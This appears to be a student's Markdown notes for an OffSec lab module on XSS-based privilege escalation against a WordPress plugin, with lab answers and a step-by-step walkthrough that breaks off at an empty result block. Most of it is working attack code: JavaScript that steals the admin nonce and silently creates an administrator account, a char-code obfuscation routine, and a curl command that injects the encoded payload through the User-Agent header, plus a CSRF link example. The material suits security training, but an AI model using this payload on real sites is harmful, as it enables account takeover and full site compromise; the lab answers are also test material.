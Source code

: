 # Privilege Escalation via XSS

CSRF example attack
>``` shell
><a href="http://fakecryptobank.com/send_btc?account=ATTACKER&amount=100000"">Check out these awesome cat memes!</a>
>```

Gathering WordPress Nonce
>``` shell
>var ajaxRequest = new XMLHttpRequest();
>var requestURL = "/wp-admin/user-new.php";
>var nonceRegex = /ser" value="([^"]*?)"/g;
>ajaxRequest.open("GET", requestURL, false);
>ajaxRequest.send();
>var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
>var nonce = nonceMatch[1];
>```

Creating a New WordPress Administrator Account
>``` shell
>var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
>ajaxRequest = new XMLHttpRequest();
>ajaxRequest.open("POST", requestURL, true);
>ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>ajaxRequest.send(params);
>```

Minifying the XSS attack code
>``` shell
>https://jscompress.com/
>```

JS Encoding JS Function
>``` shell
>function encode_to_javascript(string) {
>            var input = string
>            var output = '';
>            for(pos = 0; pos < input.length; pos++) {
>                output += input.charCodeAt(pos);
>                if(pos != (input.length - 1)) {
>                    output += ",";
>                }
>            }
>            return output;
>        }
>        
>let encoded = encode_to_javascript('insert_minified_javascript')
>console.log(encoded)
>```

Launching the Final XSS Attack through Curl
>``` shell
>kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
>```

Lab 1 - Start Walkthrough VM 1 and replicate the steps learned in this Learning Unit to identify the basic XSS vulnerability present in the Visitors plugin. Based on the source code portion we have explored, which other HTTP header might be vulnerable to a similar XSS flaw?
>X-Forwarded-For

Lab 2 - Start Walkthrough VM 2 and replicate the privilege escalation steps we explored in this Learning Unit to create a secondary administrator account. What is the JavaScript method responsible for interpreting a string as code and executing it? Submit the answer as the method name only, or methodName().
>eval()

Lab 3 - Capstone Lab: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in /tmp/. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.
>``` shell
># Map Hostname to IP
>kali@kali:~$ sudo nano /etc/hosts
>
># Add this line at the bottom:
>192.168.179.16 offsecwp
>
># Save and exit:
>Ctrl + X
>
># Navigate to http://offsecwp/?p=1 and test for an XSS vulnerability by entering the followng in the comment section:
><script>alert(1)</script>
>
># ========== Expected Result ==========
>1
># =====================================
>
># Navigate to https://jscompress.com/ and compress the following JavaScript to a one liner:
>// Step 1: Fetch nonce from /wp-admin/user-new.php
>var ajaxRequest = new XMLHttpRequest();
>var requestURL = "/wp-admin/user-new.php";
>var nonceRegex = /ser" value="([^"]*?)"/g;
>ajaxRequest.open("GET", requestURL, false);
>ajaxRequest.send();
>var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
>var nonce = nonceMatch[1];
>
>// Step 2: Create new admin user
>var params = "action=createuser&_wpnonce_create-user=" + nonce +
>    "&user_login=attacker&email=attacker@offsec.com" +
>    "&pass1=attackerpass&pass2=attackerpass&role=administrator";
>
>ajaxRequest = new XMLHttpRequest();
>ajaxRequest.open("POST", requestURL, true);
>ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>ajaxRequest.send(params);
>
># ========== Expected Result ==========
>var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);
># =====================================
>
># Navigate to http://offsecwp/?p=1
>
># Right-click anywhere on the page, click Inspect
>
># Navigate to the "Console" tab and enter the following:
>
># Define the function
>function encode_to_javascript(string) {
>    var output = '';
>    for (let i = 0; i < string.length; i++) {
>        output += string.charCodeAt(i);
>        if (i !== string.length - 1) output += ",";
>    }
>    return output;
>}
>
># Assign your JavaScript payload as a string
>let payload = 'var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);';
>
># Encode it
>let encoded = encode_to_javascript(payload);
>console.log(encoded);
># ========== Expected Result ==========
>
># =====================================






>```
>
